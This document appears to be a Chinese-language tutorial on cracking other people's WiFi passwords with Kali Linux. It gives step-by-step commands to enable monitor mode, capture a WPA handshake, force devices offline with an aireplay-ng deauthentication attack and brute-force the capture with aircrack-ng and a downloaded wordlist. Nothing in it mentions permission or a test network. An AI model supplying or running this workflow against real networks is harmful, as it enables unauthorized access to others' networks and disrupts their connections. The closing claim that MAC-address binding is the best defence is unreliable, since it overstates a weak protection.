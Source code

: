 # 利用Kali系统破解WiFi密码

> Kali官网 <https://www.kali.org/>

# 一、准备工作

Kali系统+可以抓包并且能在Kali系统识别的无线网卡

# 二、具体步骤

打开终端，输入以下命令进入管理员权限

```shell
sudo -i
```

查看当前的网卡信息

```shell
ifconfig
```

如果看到wlan0，则说明无线网卡已经正常驱动并识别到了。如果没有wlan0。说明无线网卡是没有安装成功的。可以重新拔插一下无线网卡、或者是该无线网卡是不支持Kali系统的。

在开始之前确保当前的主机是没有连接任何Wifi网络连接。也就是wlan0后面没有带任何ip地址。接着输入以下命令来检查网卡是否支持监听功能的。

```shell
airmon-ng
```

如果显示出wlan0。代表当前的网卡支持监听模式的。然后输入以下命令来激活无线网卡的 监听模式

```shell
airmon-ng start wlan0
```

接着再次输入ifconfig来查看当前监听的网卡

```shell
ifconfig
```

出现wlan0或者wlan0mon。出现什么后面命令就用什么

接着输入以下命令扫描当前周边环境的WiFi信号

```shell
airodump-ng wlan0
```

当搜索到我们想要破解的Wifi时。通过快捷键 Ctrl+C 来停止搜索

这里需要记录一下想要破解wifi信号的BSSID和CH（Wifi的频段）

接着输入抓包命令进行抓包。这里在桌面生成抓包到的 `handshake` 也就是数据包

```shell
airodump-ng -c [Wifi的频段] --bssid [Wifi的BSSID] -w ./桌面/handshake wlan0
```

但是呢这样的抓包方式是一种被动的等待模式，多长时间能够抓到握手包，主要依赖于什么时候有设备和这个wifi完成成功的认证。这是一种守株待兔的方式，抓包时间一般是比较长的。所以现在我们使用另外一种更快的方式，可以促进它加速完成——通过ACK死亡攻击。把它们踢下线。因为wifi都有自动登入功能，我们把它踢下线以后，它会自动重新登入，在它重新登录的时候我们就可以立马抓到包了。这样可以大大缩短我们整个破解过程。

打开一个新的命令终端，同样给一个管理员权限。但是之前抓包的命令窗口不要关闭。输入一个非常简单的攻击命令

```shell
aireplay-ng -0 10 -a [需要破解Wifi的BSSID] -c [需要踢下线的设备] wlan0

0:通知设备断开连接
10:代表攻击次数

需要踢下线的设备可以在抓包命令窗口找一个，就是STATION这个参数下面任意一个
```

攻击开始以后，稍微等一会。当抓包命令窗口出现 WPA handshake 的字样时就说明抓包成功了。可以通过快捷键 Ctrl+C 来退出当前抓包命令。这个时候桌面上有4个新生成的文件。这里主要用到的是这个cap文件。有了这个抓包成功后的文件，接下来就是暴力破解的过程。

现在需要准备一个强有力的密码字典。这种字典其实在GitHub上是有人搜集并共享的。

>  例如：<https://github.com/conwnet/wpa-dictionary>
>  

把这些密码字典合并到一起。可能里面有重复的密码，这里我们可以通过txt文本去重。把里面重复的密码给它去除掉，这里合并成password.txt文件。接着把该文件拖入到Kali系统的桌面上。

暴力破解命令

```shell
aircrack-ng -w ./桌面/password.txt -b [需要破解wifi信号的bssid] ./桌面/handshake-0*.cap

handshake就是刚刚抓包抓到的文件。
```

这个破解速度主要取决于电脑的硬件配置。当然最关键的还是密码字典。如果你的密码字典足够大，而且在密码字典中存在这个wifi密码那就能100%破解出这个wifi密码，如果不含的话，那肯定是找不到。所以换句来说，wifi密码的破解成功率主要取决于使用的密码字典的大小

# 三、总结

这个世上没有绝对的安全，虽然可以设置一个更长一点的WiFi密码来防止别人的暴力破解，但是这种方法最多只能是延长别人的破解时间而已，它是没法杜绝别破解的。目前来说，要防止别破解的最好方法就是在路由器里绑定连接设备的MAC地址，这样即使别人破解了你的WiFi密码，它也是无法连接上网的。
